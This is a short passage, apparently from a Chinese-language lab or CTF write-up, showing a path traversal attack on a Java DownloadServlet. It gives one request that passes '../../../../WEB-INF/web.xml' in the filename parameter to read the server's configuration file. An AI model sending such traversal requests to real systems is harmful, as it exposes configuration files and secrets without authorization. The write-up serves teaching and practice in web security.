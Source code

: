 ![下载资源不存在](./filejava/下载资源不存在.png)

通过`../`进行逐渐的尝试获取到正确的配置文件地址：

`GET /file_in_java/DownloadServlet?filename=../../../../WEB-INF/web.xml`

![读取配置文件](./filejava/读取配置文件.png)

读取web.xml文件。
